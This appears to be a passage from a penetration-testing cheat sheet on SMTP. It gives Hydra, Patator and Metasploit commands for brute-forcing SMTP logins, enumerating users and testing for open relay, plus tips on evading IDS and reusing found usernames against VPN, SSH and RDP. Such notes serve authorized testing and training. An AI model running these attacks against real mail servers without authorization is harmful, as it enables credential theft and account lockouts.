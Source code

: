 SMTP AUTH checks (optional; only with permission)
```
# Check which AUTH mechanisms are advertised after EHLO
printf "EHLO pentest\r\nQUIT\r\n" | nc -nv TARGET 25
# Look for: 250-AUTH PLAIN LOGIN CRAM-MD5 ...

# Hydra (cleartext SMTP on 25 within lab)
hydra -L users.txt -P passwords.txt -f -vV TARGET smtp

# Hydra (SSL/TLS-wrapped on 465)
hydra -L users.txt -P passwords.txt -s 465 -S -f -vV TARGET smtp

# Patator for STARTTLS on 587 (supports STARTTLS)
patator smtp_login host=TARGET port=587 tls=STARTTLS user=FILE0 password=FILE1 0=users.txt 1=passwords.txt \
  -x ignore:code=535,534 -x ignore:mesg='authentication failed'
```

Metasploit (optional)
```
msfconsole -q
use auxiliary/scanner/smtp/smtp_version
set RHOSTS TARGET
run

use auxiliary/scanner/smtp/smtp_enum
set RHOSTS TARGET
set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt
# Optional if using RCPT mode:
# set DOMAIN LOCALDOMAIN
run

use auxiliary/scanner/smtp/smtp_relay
set RHOSTS TARGET
# Defaults attempt external-to-external relay; adjust as needed
run
```

# Practical tips
- Identify the right domain: RCPT-based enumeration requires a domain the server considers local. Derive it from the 220 banner, MX records, nmap smtp-commands output, or org naming.
- Interpret SMTP responses:
  - 250: OK/accepted (e.g., VRFY success or RCPT accepted).
  - 252: “Cannot VRFY user, but will accept message” (user enumeration blocked).
  - 550/551/553: User unknown/not local (useful negative signal).
  - 450/451/452: Temporary failures (greylisting/rate limit; retry slower).
- STARTTLS vs SMTPS: Port 25/587 typically need STARTTLS; 465 is SSL-wrapped. Use openssl s_client appropriately.
- Throttle automation: Slow down smtp-user-enum if you see temp failures or IDS noise (e.g., -W 1 for 1s wait).
- Wordlists: Start small to confirm signal (/usr/share/seclists/Usernames/top-usernames-shortlist.txt), then expand.
- Avoid sending mail: For relay tests, quit after RCPT to avoid delivering messages (swaks --quit-after RCPT).
- Authorization safety: Attempt SMTP AUTH only with explicit authorization; many orgs lock accounts on failed attempts.
- Pivot value: Valid usernames are valuable for VPN/SSH/RDP/WinRM/HTTP auth across the environment.
